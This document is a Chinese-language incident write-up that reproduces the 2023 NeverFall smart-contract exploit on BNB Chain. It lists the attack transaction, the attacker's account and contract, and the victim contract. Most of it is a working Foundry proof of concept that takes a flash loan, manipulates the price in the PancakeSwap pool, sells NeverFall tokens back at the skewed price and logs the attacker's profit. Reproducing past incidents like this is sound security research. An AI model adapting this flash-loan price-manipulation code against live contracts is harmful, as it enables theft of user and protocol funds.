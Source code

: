 # 智能合约漏洞案例，NeverFall 漏洞复现

# 1. 漏洞简介

[https://twitter.com/BeosinAlert/status/1653619782317662211](https://twitter.com/BeosinAlert/status/1653619782317662211)
![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318180420-f22b7004-e8f8-43db-a9cd-90b5691b50c6.png#averageHue=%23fefefe&clientId=u2c5089f7-09b4-4&from=paste&id=u2425c33b&originHeight=590&originWidth=807&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=u432cb69d-5bf6-480e-88c3-78043641765&title=)

# 2. 相关地址或交易

[https://explorer.phalcon.xyz/tx/bsc/0xccf513fa8a8ed762487a0dcfa54aa65c74285de1bc517bd68dbafa2813e4b7cb](https://explorer.phalcon.xyz/tx/bsc/0xccf513fa8a8ed762487a0dcfa54aa65c74285de1bc517bd68dbafa2813e4b7cb) 攻击交易
攻击账号：0x53b757db8b9f3375d71eafe53e411a16acde75ee
攻击合约：0x35353ec557b9e23137ae27e9d4cc829d4dace16b
受害合约：0x5abde8b434133c98c36f4b21476791d95d888bf5

# 3. 获利分析

![](https://cdn.nlark.com/yuque/0/2023/png/97322/1694318180424-f71b4bba-d8d3-485e-b49d-b05af27f4b5f.png#averageHue=%23fefefe&clientId=u2c5089f7-09b4-4&from=paste&id=u22a50f82&originHeight=628&originWidth=1738&originalType=url&ratio=2&rotation=0&showTitle=false&status=done&style=none&taskId=u18e509b1-4c6d-4b17-91ea-5d7efd0a7ba&title=)

# 5. 漏洞复现

漏洞复现代码：

```
// SPDX-License-Identifier: LGPL-3.0-only
pragma solidity ^0.8.10;

//import  "../interfaces/interface.sol";
import "forge-std/Test.sol";
import "./interface.sol";
import "../contracts/ERC20.sol";

interface NeverFall {
    function buy(uint256 amountU) external returns(uint256);
    function sell(uint256 amount) external returns(uint256);

}

contract ContractTest is Test{

    address constant flashloan = 0x7EFaEf62fDdCCa950418312c6C91Aef321375A00;
    address constant bscusd = 0x55d398326f99059fF775485246999027B3197955;
    address constant neverfall = 0x5ABDe8B434133C98c36F4B21476791D95D888bF5;
    address  payable PancakeSwapRouterv2 = payable(0x10ED43C718714eb63d5aA57B78B54704E256024E);
    address  PancakeSwapV2  =  0x97a08A9Fb303b4f6F26C5B3C3002EBd0E6417d2c;


    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    function setUp() public {
        cheats.createSelectFork("bsc", 27863178 -2);
        //uint256 forkId = cheats.createFork("bsc");
        //cheats.selectFork(forkId);
        cheats.label(address(flashloan), "flashloan");
        cheats.label(address(bscusd), "bscusd");
        cheats.label(address(neverfall), "NeverFall");
    }

    function testExploit() external {
        IPancakePair(flashloan).swap(1600000 * 1e18,0,address(this),new bytes(1));

    }

    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external {
        uint256 loanNum = IERC20(bscusd).balanceOf(address(this));
        console.log(" loanNum is : %s ", loanNum);

        IERC20(bscusd).approve(neverfall,type(uint256).max);
        IERC20(bscusd).approve(PancakeSwapRouterv2,type(uint256).max);
        uint256 buyNum = NeverFall(neverfall).buy(200000* 1e18);
        console.log(" buyNum is : %s ", buyNum);

        address [] memory path = new address[](2);
        path[0] =  bscusd;
        path[1] = neverfall;
        IPancakeRouter(PancakeSwapRouterv2).swapExactTokensForTokensSupportingFeeOnTransferTokens(1400000* 1e18,1,path,0x051d6a5f987e4fc53B458eC4f88A104356E6995a,88888899999);

        emit log_named_decimal_uint("pair USDT balance after swap",IERC20(bscusd).balanceOf(PancakeSwapV2),18);
        emit log_named_decimal_uint("pair neverfall balance after swap",IERC20(neverfall).balanceOf(PancakeSwapV2),18);

        uint256 sellNum = NeverFall(neverfall).sell(75500000 * 1e18);
        console.log(" sellNum is : %s ", sellNum);

        IERC20(bscusd).transfer(flashloan,1600000 * 1e18 * 1.003);
        emit log_named_decimal_uint("Attacker USDT balance after exploit",IERC20(bscusd).balanceOf(address(this)),18);
        emit log_named_decimal_uint("Attacker neverfallToken balance after exploit", IERC20(neverfall).balanceOf(address(this)),18);

        /*
        uint256 earnNum = IERC20(bscusd).balanceOf(address(this));
        console.log(" earnNum is : %s ", earnNum);
        uint256 neverfallNum = IERC20(neverfall).balanceOf(address(this));
        console.log(" neverfallNum is : %s ", neverfallNum);
        */
    }
}
```

